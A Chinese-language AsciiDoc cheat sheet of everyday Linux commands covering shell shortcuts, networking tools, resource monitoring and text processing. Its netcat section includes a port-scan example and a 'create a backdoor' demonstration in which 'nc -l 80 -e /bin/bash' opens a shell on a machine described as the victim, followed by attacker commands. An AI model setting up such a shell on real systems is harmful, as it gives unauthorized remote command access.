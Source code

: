 = linux常用命令草集
:toc-title: 目录
:tip-caption: 💡
:note-caption: ℹ️
:important-caption: ❗
:caution-caption: 🔥
:warning-caption: ⚠️
// :tip-caption: :bulb:
// :note-caption: :information_source:
// :important-caption: :heavy_exclamation_mark:	
// :caution-caption: :fire:
// :warning-caption: :warning:
:icons: font

Doc writer yaoyihao1@gmail.com

== 你可能不知道的个人常用命令

----
ctrl u 可以删除行内光标所在位置之前的内容 - 常用
ctrl l 可以清屏 - 常用
ctrl a 可以将光标移至行首
ctrl e 可以将光标移至行尾
ctrl k 可以删除光标至行尾的所有内容
ctrl w 删除你键入的最后一个单词

cd - 回到前一个工作路径
----

== 特殊符号的应用

=== ! -d

> 检查某个目录是否存在

----
和上面的命令类似。这里是检测目录是否为空，如果为空则退出命令
skyler@bogon  ~/skyler/a [ ! -d /home/test/exist ] && exit
检测目录是否为空，如果为空则创建该目录
skyler@bogon  ~/skyler/a [ ! -d /home/test/exist ] && mkdir /home/test/exist

----

=== !$ 

> 将上一条命令的参数传递给下一条命令参数

当这个参数特别长的时候此命令特别有用

----
skyler@bogon  ~/skyler/a 201910  cd /Users/skyler/skyler/a
skyler@bogon  ~/skyler/a 201910  ll !$
skyler@bogon  ~/skyler/a 201910  ll /Users/skyler/skyler/a
total 64
-rw-r--r--  1 skyler  staff   346B  8  8 11:55 Dockerfile
-rw-r--r--  1 skyler  staff   249B  8  9 14:16 README.md
----

===  !!

> 执行上一条命令

----
[root@aizbp11lqlgyf2g31fgs4hg ~]# cat test.sh
echo $# $0 $1
aaa=111
[root@aizbp11lqlgyf2g31fgs4hg ~]# !!
cat test.sh
echo $# $0 $1
aaa=111
----


=== 从历史记录中使用命令号来运行命令

首先输入 **history** 命令得到命令的序号

----
skyler@bogon  ~/bin history
10063* [ ! d ~/test/exist ] && echo "no"
10064* [ diff ~/test/exist ] && echo "no"
10065* [ ! -d ~/test/exist ] && echo "no"
10066* [ ! -d ~/bin ] && echo "no"
----

然后通过每行前的序号结合!来执行此行命令

----
skyler@bogon  ~/bin  !10065
skyler@bogon  ~/bin  [ ! -d ~/test/exist ] && echo "no"
----

还可以使用!-n, n为数字

----
skyler@bogon  ~/bin  !-2
skyler@bogon  ~/bin  [ ! -d ~/test/exist ] && echo "no"
----



== 系统信息

----
cat /proc
uname
----

=== cat /proc 系统信息

----
cat /proc/{xxx}
----

=== uname

----
[root@aizbp11lqlgyf2g31fgs4hg ~]# uname -a
Linux aizbp11lqlgyf2g31fgs4hg 3.10.0-693.2.2.el7.x86_64 #1 SMP Tue Sep 12 22:26:13 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

查看主机名
[root@aizbp11lqlgyf2g31fgs4hg ~]# uname -n
aizbp11lqlgyf2g31fgs4hg

查看linux发行版及版本号
方法一
[root@aizbp11lqlgyf2g31fgs4hg /]# cat /etc/redhat-release
CentOS Linux release 7.4.1708 (Core)

方法二
[root@aizbp11lqlgyf2g31fgs4hg /]# cat /etc/os-release
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

方法三
[root@aizbp11lqlgyf2g31fgs4hg /]# lsb_release  -a
LSB Version:	:core-4.1-amd64:core-4.1-noarch
Distributor ID:	CentOS
Description:	CentOS Linux release 7.4.1708 (Core)
Release:	7.4.1708
Codename:	Core
----


== 网络

=== 网络连接(进程端口)

----
ss：查看网络连接
lsof：查看网络连接
----

==== ss - socket statistics

查看网络连接，代替netstat命令，使用更简洁。

可以查看pid和服务端口的对应关系

----
[root@aizbp11lqlgyf2g31fgs4hg ~]# ss -ptl
State      Recv-Q Send-Q                                                                                         Local Address:Port                                                                                                          Peer Address:Port
LISTEN     0      128                                                                                                   *:ssh                                                                                                                      *:*                     users:(("sshd",pid=1329,fd=3))
LISTEN     0      1                                                                                                  127.0.0.1:32000                                                                                                                    *:*                     users:(("java",pid=17595,fd=3))
LISTEN     0      128                                                                                                       :::lanmessenger                                                                                                            :::*                     users:(("docker-proxy-cu",pid=2937,fd=4))
[root@aizbp11lqlgyf2g31fgs4hg ~]#
----

----
[root@aizbp11lqlgyf2g31fgs4hg ~]# ss -ptln|grep 20282
LISTEN     0      100          *:20282                    *:*                   users:(("java",pid=17470,fd=21))
----

> `ss` 真正耀眼的地方是其内置的过滤能力

只想看已建立的 socket（排除了 *listening* 和 *closed* ）

----
$ ss state connected sport = :ssh
Netid State      Recv-Q Send-Q     Local Address:Port                      Peer Address:Port
tcp   ESTAB      0      0          192.168.0.136:ssh                      192.168.0.102:46540
----

列出指定的 host 或者 ip 段。例如，列出到达 74.125.0.0/16 子网的连接，这个子网属于 Google

----
$ ss state all dst 74.125.0.0/16
Netid State      Recv-Q Send-Q     Local Address:Port                      Peer Address:Port
tcp   ESTAB      0      0          192.168.0.136:33616                   74.125.142.189:https
tcp   ESTAB      0      0          192.168.0.136:42034                    74.125.70.189:https
tcp   ESTAB      0      0          192.168.0.136:57408                   74.125.202.189:https
----

==== lsof - list open files

> 非常实用的系统级的监控、诊断工具

----
查看指定端口有哪些进程在使用 lsof -i:PORT（lsof -i 列出所有的打开的网络连接） 
[root@aizbp11lqlgyf2g31fgs4hg ~]# lsof -i:32000
COMMAND   PID USER   FD   TYPE   DEVICE SIZE/OFF NODE NAME
wrapper  1105 root    6u  IPv4 53752676      0t0  TCP localhost:32000->localhost:31001 (ESTABLISHED)
java    17595 root    3u  IPv4 53752648      0t0  TCP localhost:32000 (LISTEN)
java    17595 root   28u  IPv4 53752674      0t0  TCP localhost:31001->localhost:32000 (ESTABLISHED)

查看指定进程pid打开的文件 losf -p pid
[root@aizbp11lqlgyf2g31fgs4hg ~]# lsof -p 17595
COMMAND   PID USER   FD   TYPE             DEVICE  SIZE/OFF     NODE NAME
java    17595 root  mem    REG              253,1   1078737  1313486 /usr/local/cloudmonitor/lib/spring-core-4.2.4.RELEASE.jar
java    17595 root  mem    REG              253,1   1097552  1313482 /usr/local/cloudmonitor/lib/spring-context-4.2.4.RELEASE.jar
java    17595 root  mem    REG              253,1    731512  1313485 /usr/local/cloudmonitor/lib/spring-beans-4.2.4.RELEASE.jar

列出被某个进程打开所有的网络文件
lsof -i -a -p 234

查看指定主机有哪些进程在使用
lsof -i@192.168.1.91

查看指定用戶打开的文件
lsof -u messagebus

查看指定程序打开的文件
lsof -c firefox

查看被删除的文件。有些删了的文件，但是进程没reload，那些空间还是占用的
lsof|grep -i delete
----



=== 网络管理

----
ip：
ifconfig：
dig：
----

==== ip - show / manipulate routing, devices, policy routing and tunnels

> ip 意在取代ifconfig

----
[root@aizbp11lqlgyf2g31fgsfhg ~]# ip addr|grep eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    inet 172.16.68.43/20 brd 172.16.79.255 scope global dynamic eth0
----

==== ifconfig - configure a network interface

----
[root@aizbp11lqlgyf2g31fgsfhg /]# ifconfig |grep inet
        inet 172.20.0.1  netmask 255.255.0.0  broadcast 172.20.255.255
        inet 172.18.0.1  netmask 255.255.0.0  broadcast 172.18.255.255
        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
        inet 172.16.68.43  netmask 255.255.240.0  broadcast 172.16.79.255
        inet 127.0.0.1  netmask 255.0.0.0
----

==== dig - DNS lookup utility

> DNS查找工具

----
dig 从DNS域名服务器查询指定主机信息
dig baidu.com

从指定的 DNS 服务器上查询
dig @8.8.8.8 abc.filterinto.com

跟踪整个查询过程
如果你好奇 dig 命令执行查询时都经历了哪些过程，你可以尝试使用 +trace 选项。它会输出从根域到最终结果的所有信息：
$ dig +trace abc.filterinto.com
----



=== 网络调试(网络诊断)

----
wireshark：
nc：
mtr：
----



==== wireshark

> 强大的可视化工具 一定要会用 todo

----
wireshark
----



==== nc - netcat - Concatenate and redirect sockets

> 既可以网络调试又数据传输, 既是一个端口扫描工具，也是一款安全工具，还能是一款监测工具，甚至可以做为一个简单的 TCP 代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀
>

===== 网络调试

----
todo
----

===== 数据传输

使用netcat实现聊天

----
47.98.189.37机器，监听80端口(注意:我这里是aliyun服务器，他的安全策略是只开放了80等端口，你使用其他端口可能无法实现聊天，这是因为阿里云的安全策略控制的，你需要配置你使用的端口)
接收端启动监听
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 80
ff
dfgdfg

发送端(mac机器)连接47.98.189.37机器的80端口
[skyler@mac ~]# nc 47.98.189.37 80
ff
dfgdfg

输入ff、dfgdfg可以看到消息已经相互传递了。断开时需要手动Ctrl + c
----

使用netcat实现文件传输
----
[root@izbp10lqlgy2g31s41bt94z ~]# nc -l 80 > test.sh
[root@izbp10lqlgy2g31s41bt94z ~]# ll
-rw-r--r-- 1 root root     0 10月 29 10:37 test.sh

[skyler@mac ~]# nc 47.98.189.37 80 < test.sh
传输完成，连接自动断开
----

===== 端口扫描工具

----
实例：nc -v -z -w2 192.168.31.164 1-100

-v：显示指令执行过程；
-z：使用0输入/输出模式，只在扫描通信端口时使用。
-w2：设置等待连线的时间为2s；
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -v -z -w2 192.168.31.164 38322
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connection timed out.
----

===== 安全工具
----
1. 端口转发，作为代理，
2. 创建后门(也叫反弹shell)
----

=====# 端口转发，作为代理
----
端口转发
我们通过选项 -c 来用 nc 进行端口转发，实现端口转发的语法为：
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -u -l  80 -c  'ncat -u -l 8080'

作为代理
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 8080 | nc 192.168.1.200 80
所有发往我们服务器 8080 端口的连接都会自动转发到 192.168.1.200 上的 80 端口。 不过由于我们使用了管道，数据只能被单向传输。要同时能够接受返回的数据，我们需要创建一个双向管道。 使用下面命令可以做到这点:

[root@aizbp11lqlgyf2g31fgsfhg ~]# mkfifo 2way
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 8080 0<2way | nc 192.168.1.200 80 1>2way
现在你可以通过 nc 代理来收发数据了。
----

====== 创建后门(也叫反弹shell)
----
受害者机器主动打开监听。-e为执行被给的命令，“nc -l 80 -e /bin/bash”含义为执行连接端输入的命令
[root@izbp10lqlgy2g31s41bt94z ~]# nc -l 80 -e /bin/bash

攻击端(连接端)连接受害者机器80端口，然后输入命令获取受害者机器的信息，从而实现攻击
[skyler@mac ~]# nc 47.98.189.37 80
w
 11:21:25 up 493 days, 23:11,  1 user,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    210.12.157.87    10:13   13.00s  0.04s  0.00s w
whoami
root
uname -a
Linux izbp10lqlgy2g31s41bt94z 3.10.0-693.2.2.el7.x86_64 #1 SMP Tue Sep 12 22:26:13 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
----

===== 监测工具
----
启动监听。等待连接端连接
[root@aizbp11lqlgyf2g31fgsfhg ~]# nc -l 80
----



==== mtr - a network diagnostic tool

是一款更好的网络诊断、网络调试跟踪工具，集成了traceroute、ping、nslookup的判断主机的网络连通性功能，用于诊断网络状态非常有用

----
[root@aizbp11lqlgyf2g31fgsfhg ~]# mtr www.baidu.com
----

image::linux命令温故知新/image-20191019225352819.png[image-20191019225352819]

http://einverne.github.io/post/2017/11/mtr-usage.html



=== 网络带宽

----
nethogs: 按进程查看流量占用
iptraf: 按连接/端口查看流量
ifstat: 按设备查看流量
iftop: 按套接字看连接带宽流量占用
ethtool: 诊断工具
tcpdump: 抓包工具
ss: 连接查看工具
----



=== 网络传输(数据)

----
scp：不同机器上远程拷贝文件
nc：数据传输
----

==== scp - secure copy

----
scp是secure copy的简写，用于在Linux下进行远程拷贝文件的命令，和它类似的命令有cp，不过cp只是在本机进行拷贝不能跨服务器，而且scp传输是加密的。
可能会稍微影响一下速度。当你服务器硬盘变为只读 read only system时，用scp可以帮你把文件移出来。
另外，scp还非常不占资源，不会提高多少系统负荷，在这一点上，rsync就远远不及它了。
虽然 rsync比scp会快一点，但当小文件众多的情况下，rsync会导致硬盘I/O非常高，而scp基本不影响系统正常使用
----

===== 命令格式

> scp [参数] [原路径] [目标路径]

===== 命令功能

scp是 secure copy的缩写, scp是linux系统下基于ssh登陆进行安全的远程文件拷贝命令。linux的scp命令可以在linux服务器之间复制文件和目录。

===== 命令参数

----
-1 强制scp命令使用协议ssh1 
-2 强制scp命令使用协议ssh2 
-4 强制scp命令只使用IPv4寻址 
-6 强制scp命令只使用IPv6寻址 
-B 使用批处理模式（传输过程中不询问传输口令或短语） 
-C 允许压缩。（将-C标志传递给ssh，从而打开压缩功能） 
-p 保留原文件的修改时间，访问时间和访问权限。 
-q 不显示传输进度条。 
-r 递归复制整个目录。 
-v 详细方式显示输出。scp和ssh(1)会显示出整个过程的调试信息。这些信息用于调试连接，验证和配置问题。 
-c cipher 以cipher将数据传输进行加密，这个选项将直接传递给ssh。 
-F ssh_config 指定一个替代的ssh配置文件，此参数直接传递给ssh。 
-i identity_file 从指定文件中读取传输时使用的密钥文件，此参数直接传递给ssh。  
-l limit 限定用户所能使用的带宽，以Kbit/s为单位。  
-o ssh_option 如果习惯于使用ssh_config(5)中的参数传递方式， 
-P port 注意是大写的P, port是指定数据传输用到的端口号 
-S program 指定加密传输时所使用的程序。此程序必须能够理解ssh(1)的选项。
----



===== 使用实例

===== 从本地服务器上传到远程服务器

----
(1) 上传文件
命令格式： 
scp local_file remote_username@remote_ip:remote_folder 
或者 
scp local_file remote_username@remote_ip:remote_file 
或者 
scp local_file remote_ip:remote_folder 
或者 
scp local_file remote_ip:remote_file 

第1,2个指定了用户名，命令执行后需要输入用户密码，第1个仅指定了远程的目录，文件名字不变，第2个指定了文件名 
第3,4个没有指定用户名，命令执行后需要输入用户名和密码，第3个仅指定了远程的目录，文件名字不变，第4个指定了文件名 

实例：上传本地文件到远程机器指定目录
scp /opt/soft/nginx-0.5.38.tar.gz root@10.80.100.20:/opt/soft/scptest
说明
上传本地opt/soft/目录下的文件nginx-0.5.38.tar.gz 到远程机器10.80.100.20的opt/soft/scptest目录

(2) 上传目录
命令格式： 
scp -r local_folder remote_username@remote_ip:remote_folder 
或者 
scp -r local_folder remote_ip:remote_folder 
第1个指定了用户名，命令执行后需要输入用户密码； 
第2个没有指定用户名，命令执行后需要输入用户名和密码；

实例：上传本地目录到远程机器指定目录
scp -r /opt/soft/mongodb root@10.80.100.20:/opt/soft/scptest
说明
上传本地opt/soft/目录到远程机器10.80.100.20的opt/soft/scptest目录
----



===== 从远程服务器下载到本地服务器

----
从远程下载到本地的scp命令与上面的命令雷同，只要将从本地上传到远程的命令后面2个参数互换顺序就行了。
实例1：从远处下载文件到本地目录
scp root@10.80.100.20:/opt/soft/nginx-0.5.38.tar.gz /opt/soft/
说明
从10.80.100.20机器上的/opt/soft/的目录中下载nginx-0.5.38.tar.gz 文件到本地/opt/soft/目录中

实例2：从远处下载目录到本地目录
scp -r root@10.80.100.20:/opt/soft/mongodb /opt/soft/
说明
从10.80.100.20机器上的/opt/soft/中下载mongodb 目录到本地的/opt/soft/目录来。
----

参考：
https://www.cnblogs.com/webnote/p/5877920.html

==== nc - 数据传输
聊天
----
看看8090端口是否在使用
[work@vm ~]$ lsof -i:8090

监听8090端口
[work@vm ~]$ nc -l 8090
ffff
ggg
wo shi ni de

连接10.26.21.4机器的8090端口，注意
[skyler@skyler ~]$ nc 10.26.21.4 8090
ffff
ggg
wo shi ni de
----




== CPU、内存、硬盘的使用状态

=== cpu使用状态

----
top：获取 CPU 和硬盘的使用状态，通常使用使用 top（htop 更佳）
iostat：CPU利用情况报告
mpstat：CPU实时监控工具
----

==== 'iostat -c' CPU利用情况报告

----
iostat -c 1 10
avg-cpu: %user %nice %sys %iowait %idle
1.98 0.00 0.35 11.45 86.22
avg-cpu: %user %nice %sys %iowait %idle
1.62 0.00 0.25 34.46 63.67
----

==== mpstat- Multiprocessor Statistics

> 实时CPU监控工具

----

----



=== IO

----
iostat:设备、分片的输入输出统计数据
iotop:监视磁盘I/O使用状况工具
----



==== iostat - 报告CPU统计数据和设备、分片的输入输出统计数据

----
iostat主要用于监控系统设备的IO负载情况
iostat -mxz 15 可以让你获悉 CPU 和每个硬盘分区的基本信息和性能表现
----



==== iotop – simple top-like I/O monitor

> iotop是一个用来监视磁盘I/O使用状况的 top 类工具，可监测到哪一个程序使用的磁盘IO的信息（requires 2.6.20 or later）



=== 内存使用状态

----
free：展示内存的已使用和空闲的数量数据
vmstat：报告虚拟内存统计数据
/proc/meminfo：包含了更多更原始的信息，只是看起来不太直观
区别：free为你提供了概要信息，输出结果清晰；/proc/meminfo提供更多更原始的信息，是了解Linux系统内存使用状况的主要接口，我们最常用的”free”、”vmstat”等命令就是通过它获取数据的 
----



==== free - Display amount of free and used memory in the system

----
free
[root@aizbp11lqlgyf2g31fgsfhg ~]# free -h
              total        used        free      shared  buff/cache   available
Mem:           1.8G        1.1G         88M        668K        581M        501M
Swap:            0B          0B          0B

cat /proc/meminfo
[root@aizbp11lqlgyf2g31fgsfhg ~]# cat /proc/meminfo
MemTotal:        1883492 kB
MemFree:           91292 kB
MemAvailable:     513480 kB
Buffers:          105988 kB
Cached:           425896 kB
SwapCached:            0 kB
Active:          1398952 kB
Inactive:         287908 kB
Active(anon):    1155456 kB
Inactive(anon):      188 kB
Active(file):     243496 kB
Inactive(file):   287720 kB
Unevictable:           0 kB
Mlocked:               0 kB
----

==== vmstat - Report virtual memory statistics

----
vmstat: 内存使用状态
[root@aizbp11lqlgyf2g31fgsfhg ~]# vmstat
procs -----------memory---------- ---swap-- -----io---- -system-- ------cpu-----
 r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa st
 4  0      0  91008 106004 489120    0    0     3    11    1    0  2  1 98  0  0
----

==== /proc/meminfo

----

----



=== 硬(磁)盘使用状态

----
df：检查文件系统磁盘占用情况
du：检查磁盘空间占用情况,计算每个文件的大小然后累加
ncdu：是一个可以替代du命令的工具
iostat：硬盘的输入输出使用状态
fdisk：磁盘分区表数据，可以创建和维护分区表

du与df的区别：
du是通过搜索文件来计算每个文件的大小然后累加，du能看到的文件只是一些当前存在的，没有被删除的。他计算的大小就是当前他认为存在的所有文件大小的累加和。而df是检查文件系统的磁盘空间使用情况

du与ncdu的区别：
ncdu是一个可以替代du命令的工具，ncdu命令是对传统du命令功能上的增强.它比寻常的命令，如 du -sh *，更节省时间
----

==== df - disk free

----
df -h 查看各分区使用情况 
[root@aizbp11lqlgyf2g31fgsfhg ~]# df -h
文件系统        容量  已用  可用 已用% 挂载点
/dev/vda1        40G   19G   19G   51% /
devtmpfs        911M     0  911M    0% /dev
tmpfs           920M     0  920M    0% /dev/shm
tmpfs           920M  668K  920M    1% /run
tmpfs           920M     0  920M    0% /sys/fs/cgroup
tmpfs           184M     0  184M    0% /run/user/0
overlay          40G   19G   19G   51% /var/lib/docker/overlay2/85bcc5f201ed0fbf82697f11da0730fbb8543b0e6cc9707b43b331e6e02d4eb0/merged
shm              64M     0   64M    0% /var/lib/docker/containers/10f26d49e94eb6042a25a7807f293a5b75abe75af571414c0ae6e878b0ccdf41/shm
----

==== du - disk usage

> 硬盘使用情况概述

----
查看root目录下的直接层级文件(夹)大小
[root@aizbp11lqlgyf2g31fgsfhg ~]# du -sh *
52K	hs_err_pid24203.log
52K	hs_err_pid25726.log
52K	hs_err_pid27481.log
4.0K	log.stack
2.2G	skyler_home
4.0K	test2.sh
4.0K	test.sh
4.0K	wget-log
[root@aizbp11lqlgyf2g31fgsfhg ~]# pwd
/root

查看root目录下的所有层级文件(夹)大小
[root@aizbp11lqlgyf2g31fgsfhg ~]# du -h *
略
----

==== ncdu

----
aliyun默认没有这个命令
----

==== iostat：硬盘的输入输出使用状态

----

----

==== fdisk：磁盘分区表数据

----
列出所有磁盘数据
[root@aizbp11lqlgyf2g31fgsfhg ~]# fdisk  -l

磁盘 /dev/vda：42.9 GB, 42949672960 字节，83886080 个扇区
Units = 扇区 of 1 * 512 = 512 bytes
扇区大小(逻辑/物理)：512 字节 / 512 字节
I/O 大小(最小/最佳)：512 字节 / 512 字节
磁盘标签类型：dos
磁盘标识符：0x0008d73a

   设备 Boot      Start         End      Blocks   Id  System
/dev/vda1   *        2048    83884031    41940992   83  Linux

查看/dev/vda1磁盘数据，并可以修改
[root@aizbp11lqlgyf2g31fgsfhg ~]# fdisk /dev/vda1
欢迎使用 fdisk (util-linux 2.23.2)。

更改将停留在内存中，直到您决定将更改写入磁盘。
使用写入命令前请三思。

Device does not contain a recognized partition table
使用磁盘标识符 0xbc589282 创建新的 DOS 磁盘标签。

命令(输入 m 获取帮助)：p

磁盘 /dev/vda1：42.9 GB, 42947575808 字节，83881984 个扇区
Units = 扇区 of 1 * 512 = 512 bytes
扇区大小(逻辑/物理)：512 字节 / 512 字节
I/O 大小(最小/最佳)：512 字节 / 512 字节
磁盘标签类型：dos
磁盘标识符：0xbc589282

     设备 Boot      Start         End      Blocks   Id  System

命令(输入 m 获取帮助)：
----



== 文本处理相关

=== 排序与过滤

==== sort 排序

----
sort
-t 指定分隔符（通常与 -k 联用）
-k 指定用于排序的列号
-n 以数字进行排序

实例：
[root@aizbp11lqlgyf2g31fgsfhg ~]# cat test.sh
echo $# $0 $1
aaa=111
echoaaa=1
echo aaa=31
fff=3
bbbf=50
aaa=111

[root@aizbp11lqlgyf2g31fgsfhg ~]# sort -n -t = -k 2 test.sh
echo $# $0 $1
echoaaa=1
fff=3
echo aaa=31
bbbf=50
aaa=111
aaa=111
----

可以看到文本按数字大小排序输出。最后两行是重复的，过滤重复我们就需要`uniq`命令了

==== uniq 过滤

----
往往与sort一起使用，从名字可以看出来，取唯一的意思
解决上文sort -n -t = -k 2 test.sh重复数据的问题，我们只需要这样做
[root@aizbp11lqlgyf2g31fgsfhg ~]# sort -t = -k 2 -n test.sh |uniq
echo $# $0 $1
echoaaa=1
fff=3
echo aaa=31
bbbf=50
aaa=111
----

=== 截取与连接

==== cut 按列切分文本

----
-b 以字节为单位进行分割
-c 以字符为单位进行分割
-f 以字段为分隔单位，与-d一起使用，指定显示哪个区域
-d 指定分隔符，默认制表符

实例：获取test-project-web服务配置中第18列=右侧的信息
全部信息为：
[skyler@tt ~]$ ps -ef|grep test-project-web
skyler     11021     1  3 10月09 ?      06:41:36 /usr/local/bin/java -server -Xmn1024m -Xms4096m -Xmx4096m -XX:PermSize=64M -XX:MaxPermSize=128M -XX:+PrintGCDetails -XX:+PrintGCDateStamps -Xloggc:/home/skyler/var/test-project/log/gc.log -Dlogging.path=/home/skyler/var/test-project/log -Dlogging.config.path=/data0/skyler/test-project/test-project/config/cp/ -Dlogging.config=/data0/skyler/test-project/test-project/config/cp/base-logback.xml -jar /data0/skyler/test-project/test-project/lib/test-project-web-1.1.0.jar --spring.profiles.active=dev --spring.config.location=classpath:/,/data0/skyler/test-project/test-project/system/ --spring.config.name=application

[skyler@tt ~]$ ps -ef|grep test-project-web|awk '{print $18}'|cut -d = -f 2
/home/skyler/var/test-project/log
----



==== paste 按列拼接文本

----
可以将两个文件的内容拼接在一起
实例：将test.sh与test2.sh拼接在一起
[root@aizbp11lqlgyf2g31fgsfhg ~]# echo "aa2" > test2.sh

[root@aizbp11lqlgyf2g31fgsfhg ~]# cat test.sh
echo $# $0 $1
aaa=111
echoaaa=1
echo aaa=31
fff=3
bbbf=50
aaa=111

[root@aizbp11lqlgyf2g31fgsfhg ~]# paste test.sh test2.sh
echo $# $0 $1	aa2
aaa=111
echoaaa=1
echo aaa=31
fff=3
bbbf=50
aaa=111

-d 按指定分隔符拼接
[root@aizbp11lqlgyf2g31fgsfhg ~]# paste test.sh test2.sh -d ','
echo $# $0 $1,aa2
aaa=111,
echoaaa=1,
echo aaa=31,
fff=3,
bbbf=50,
aaa=111,

----



=== 行列操作 - 重点

==== awk - 列操作

----
awk 和 sed
----

==== sed - 操作

----

----





== 文件处理相关

=== 文件内容比较

==== diff
